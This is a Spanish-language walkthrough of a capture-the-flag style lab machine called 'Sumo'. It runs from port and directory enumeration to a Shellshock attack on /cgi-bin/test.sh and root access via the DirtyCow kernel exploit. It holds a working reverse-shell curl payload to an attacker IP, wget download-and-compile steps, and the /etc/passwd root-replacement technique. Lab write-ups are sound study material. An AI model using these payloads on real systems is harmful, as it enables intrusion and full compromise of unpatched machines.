#Sumo
- Iniciamos haciendo ping a la IP para asegurarnos que la maquina esté activa, tuve problemas con herramientas como arp-scan o  netdiscover, así que me cree un [script](https://github.com/JoseVazquez101/My-scr1pt5/blob/main/hostscan.sh) para escanear mi red local:
- También he decidido añadir una resolución DNS local con el siguiente comando:
  ~~~bash
  echo '192.168.17.135  sumo.vh' >> /etc/hosts
  ~~~
- Si todo funciona, llegaría la hora de realizar el escaneo con nmap, los parametros que suelo utilizar son los siguientes:

  ~~~bash 
  sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -sV sumo.vh
  ~~~

- Y vemos que hay un servicio http ejecutándose en el equipo objetivo:

![[Pasted image 20231111201246.png]]
![[Pasted image 20231111201504.png]]
- Con esto en mente, podemos realizar una enumeración de directorios de la siguiente manera:
~~~ bash
gobuster dir -u http://sumo.vh -w /usr/share/wordlists/dirb/big.txt -t 20 --add-slash --no-error
~~~

![[Pasted image 20231111201620.png]]
- A simple vista podríamos pensar que no existe nada fuera de lugar, pero para los ojos mas experimentados, la ruta **/cgi-bin** resulta llamativa, pues podríamos intentar enumerarla a ver si podemos explotar un posible [ShellShock](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)
- Enumeramos http://sumo.vh/cgi-bin/ y vemos algo interesante:
  ![[Pasted image 20231111202059.png]]
  - Intentaremos ganar acceso a través de un header malicioso con Curl, que incluirá un reverse shell, esto de la siguiente manera:
  
~~~ bash 
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.17.128/4444 0>&1' http://sumo.vh/cgi-bin/test.sh
~~~

![[Pasted image 20231111202501.png]]
- Y estamos dentro :D

***
<h3>PrivEsc</h3>
- Al entrar, podemos comprobar que somos www-data, por lo que tendremos que enumerar de manera bastante detallada los vectores para escalar privilegios:
  ![[Pasted image 20231111202805.png]]
  - Hacemos un tratamiento de TTY de la siguiente forma para mas comodidad (opcional):
~~~ bash
script /dev/null -c bash
^Z
#Dejamos nuestra sesión en segundo plano
stty raw -echo; fg
#Nuestro tecleo será invisible, reiniciamos la xterm de igual manera
reset xterm
#Nos aparecerá un mensaje
export TERM=xterm
export SHELL=bash
~~~

- Después de enumerar por distintos vectores de ataque, me decidí centrar en algo que me llamó la atención, la versión de kernel parecía antigua, al ser una 3.2.0-23-generic:
  ![[Pasted image 20231111210152.png]]
  - Si buscamos en Searchsploit por kernel 3.2 podremos encontrar algunos exploits, pero los mas interesantes son los de DirtyCow:
    ![[Pasted image 20231111210738.png]]
- Vemos que están basados en Race Condition, elegiremos el que está enfocado en PrivEsc (linux/local/40839.c)
- Nos pasamos el script de la siguiente manera al directorio actual:
  ~~~ bash
  searchsploit -m 40839.c
  ~~~

- La maquina victima tiene gcc, así que podemos compilarlo desde ahí, por lo que montamos un servidor http desde nuestro lado y lo descargamos con wget:
	- En mi maquina:
	  ~~~ bash
	  python3 -m http.server 1234
	  ~~~
	  - En la maquina victima:
	  ~~~ bash
	  cd /tmp
	  wget http://192.168.17.128:1234/40839.c
	  gcc -pthread 40839.c -o dirty.o -lcrypt
	  ~~~
- Tuve algunos problemas con el binario de gcc en la maquina, así que tuve que mover mi binario de gcc con el servidor de python y cambiar la PATH para que buscase en mi directorio, por si a alguien mas le sucede, lo cambié así:
  - En mi maquina:
~~~ bash
cd /usr/bin
python3 -m http.server 1234
~~~
 - En la maquina victima:
~~~ bash
wget http://192.168.17.128:1234/gcc
export PATH=/tmp:$PATH 
~~~

- Ahora ejecutamos el binario compilado y asignaremos una contraseña, en pocas palabras el código erradica al ussuario root y lo sustituye por otro con una uid 0, modificando con este permiso el archivo de /etc/passwd y asignando una contraseña conocida:
  - Y con esto seremos root :D
  ![[Pasted image 20231111220347.png]]
  ![[Pasted image 20231111234554.png]]
  
